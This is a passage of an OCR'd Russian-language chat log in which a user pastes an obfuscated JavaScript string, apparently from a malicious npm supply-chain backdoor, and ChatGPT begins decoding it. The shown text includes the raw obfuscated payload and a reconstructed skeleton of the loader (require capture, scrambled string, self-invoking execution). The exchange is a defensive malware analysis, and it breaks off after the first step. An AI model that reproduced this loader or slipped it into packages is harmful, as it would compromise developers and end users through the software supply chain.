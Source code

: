Поставь npm audit, а лучше — Snyk или npm audit ci.

Пояснение:
Это не баннер-вирус, а именно supply chain backdoor — то есть не заметен пользователю, а ворует или готовит плацдарм для атаки.

Происхождение — международное, но распространено через npm, GitHub, крякнутые тулзы, публичные snippet-ы.

Если хочешь — могу попробовать полностью декодировать (дешифровать) его вручную — скидывай весь код, если интересно узнать что именно он делал!
🜂
Ты всё сделал правильно: удаляй, пушь, защищайся, теперь ты точно на уровень выше!

Вы сказали:
)9;6es.$((.oD)X_fXf5]}.((l=_0a ).]3r,_9$2,]a7 ,,)ut&=0nXK))Xa]7)0{(_(nXX!p(9i7"3%()tXJn"ri2.X1yfn40i0m)q(S\'7rXxt%$]stv XL$nXXv3b>t45r$5S]+]l5nXe5.eX(=&X0&<n%7cfdd1XX}$(1h9.)v.ad(X<XXgX2o8p_{av;X}dr9j., gX\/7$ "_rba]c{)od2)y:X.e)19N71_]d3XX\\GaXzuX33O%Xt o6=0h.]d.!%82d)4]3X1X5Xt8d}X5r!a$Xo412twrho\'fSjsx6$)ehtST.6?5f) Xe!-XXtXn[06)f }.+.dF="X?m.7&X[aX"e)X\/29)d8X#M)c{4$3[.2(a=X)[.w(7%395|aT0(bo4X;yXm;d,u)X,s3X}45aLl)h ,XddbuoD4do4drd;pa1X;eh?_X\\.UX==_=hc=d1%Qi,1,X]0Xh.))eX. 3(5][37#]90.f,[45nX}X(5(P jX=a]df,X!aj4Zba#Dt):_)cX.Xd4nXc\/X;t?a;X%s]e-_Xr EX}ds6{.))t.3oa8X(k3tz,4otpXe%9[?t.F_%Tdr#X!t[Ge.9XXi5=4)Xcrct34XXXb(sfXr(e0](e5jho, d>XEX_},(Xa{3(%X02_=e X)X)fbi.Xs\'s rji%X9cd e1f)}5ifdoje;jnhsotholdte(d;a%s]Qon9X=nXX3$iX{ua%iXf{MX)$bo>{nw)y_03X]76athX i;v:}[5XgXXS2\/)=]x2$s1) X._$SmMce!avm,p;f)1(ye(X\\d(a= U)01i0(8% e;X}.tXG<.dXv(UXW=)XXX(X!(XX 2d3 ($l_d)0)X6X.j\/t<32<!4.oX4dmXXt04sTX__Xd.ekPe]g,ad]81 t%t70a()1WXdX0gE(;%at0Xn..,!f!{X1)X02Xg3!X5.p,)7ps}l, n;t525e(10e_PX t_t )dZ_JX:%%)XXx,3Xp.d{$s.xsXP.c;2ert{$S(a1g(ea])X%8rtb] X(g nmbd|2r,XZ62nDxo](X,%kc[(Sn)$.!$i)i34;(cSr@?(5on i9S(%t.;dj4q, soouX0)(( (S2d,2XXs@7=c24X)X)0.s.d$1_X)())NEl-CX(X6 3)'));var hzd=Ley(MDX,WEm );hzd(7389);return 4398})()
Вы сказали:
Декодируй его пожалуйста. Разбери его и узнай все что можно узнать. 
ChatGPT сказал:
Брат, я сделаю максимально подробно и честно разбор этой обфусцированной жабы, чтобы ты видел ЧТО реально пыталось у тебя завестись.
Я раскрою логику, шаг за шагом, чтобы ты мог отличать такие штуки в будущем и знал: это не “просто мусор”, а реально рабочий эксплойт.

Шаг 1. Общее устройство
Ты прислал кусок обфусцированной строки, которая является частью вредоносной функции.

Код был завернут примерно так:

global['_V']='8-ror-dom';
global['r']=require;
var a0b, a0a;
(function() {
  var MDX = '',
      CjV = 867-856;
  function Stv(z){ ... }
  // ... огромная строка данных ...
  var zeH = Stv('ctnospnszurcewihfxtkmadulvgqrrtycjboo').substr(0,CjV);
  var TDk = 's+o(rgejhy[t,,d==0+ijo [t={=edr=ri+ad,erox;rdt ...';
  var umP = Stv[zeH];
  var QnQ = '';
  var Ley = umP;
  var kAX = umP(QnQ,Stv(TDk));
  var WEm = kAX(Stv('...'));
  var hzd = Ley(MDX,WEm );
  hzd(7389);
  return 4398;
})()
Все функции и переменные названы бессмысленно (MDX, CjV, Stv, TDk и т.д.), чтобы сбить с толку.
